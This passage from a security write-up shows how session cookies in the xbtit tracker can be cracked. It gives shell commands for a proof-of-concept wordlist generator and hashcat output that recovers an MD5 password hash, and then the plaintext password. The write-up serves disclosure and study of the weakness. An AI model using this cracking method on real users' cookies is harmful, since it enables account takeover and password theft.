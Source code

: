 Using this information, it is possible to transform a standard wordlist into one which can be used to brute force the concatenated string. Using the proof of concept found at the end of this section, it was possible to generate all possible values for the password `toor` in 0.46 seconds:

```shell_session
$ python xbtit-wordlist-generator.py wordlist.txt > xbtit-wordlist.txt
--- 0.462036132812 seconds ---
```

To transform the `adobe_top100_pass.txt` wordlist bundled with Metasploit, with the addition of `toor` at the end of the list, the POC took 45.69 seconds to generate all possible permutations:

```shell_session
$ python xbtit-wordlist-generator.py adobe_top100_pass.txt > xbtit-wordlist.txt
--- 45.6966779232 seconds ---
$ ls -lh xbtit-wordlist.txt
-rw-r--r-- 1 rastating rastating 2.8G Aug 21 00:01 xbtit-wordlist.txt
```

Using the generated wordlist, it was possible to reverse the `pass` cookie contents in 10 seconds:

```
b094c51fb1076fc241a300ba39c3de9e:9557767b24afc8bc80e548d66c4e7ff72171c5955776

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: b094c51fb1076fc241a300ba39c3de9e
Time.Started.....: Tue Aug 21 00:28:08 2018 (10 secs)
Time.Estimated...: Tue Aug 21 00:28:18 2018 (0 secs)
Guess.Base.......: File (xbtit-wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:  9584.5 kH/s (4.17ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 90900000/90900000 (100.00%)
Rejected.........: 0/90900000 (0.00%)
Restore.Point....: 90832896/90900000 (99.93%)
Candidates.#1....: 9328967b24afc8bc80e548d66c4e7ff72171c5932896 -> 9999997b24afc8bc80e548d66c4e7ff72171c5999999
HWMon.Dev.#1.....: Temp: 61c Fan:  0% Util: 46% Core:1911MHz Mem:5005MHz Bus:8
```

With the value `9557767b24afc8bc80e548d66c4e7ff72171c5955776` recovered, it's confirmed that the plain text password is in the original wordlist that was used to generate the permutations. From here, stripping the first and last six digits reveals the original MD5 hash that is stored of the user's plain text password: `7b24afc8bc80e548d66c4e7ff72171c5`, which can now be used against the original wordlist, which in this case reveals the plain text password in 0.01ms:

```
7b24afc8bc80e548d66c4e7ff72171c5:toor                     

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 7b24afc8bc80e548d66c4e7ff72171c5
Time.Started.....: Tue Aug 21 00:30:48 2018 (0 secs)
Time.Estimated...: Tue Aug 21 00:30:48 2018 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:        0 H/s (0.01ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 101/101 (100.00%)
Rejected.........: 0/101 (0.00%)
Restore.Point....: 0/101 (0.00%)
Candidates.#1....: 123456 -> toor
HWMon.Dev.#1.....: Temp: 59c Fan:  0% Util:  8% Core:1556MHz Mem:5005MHz Bus:8
```
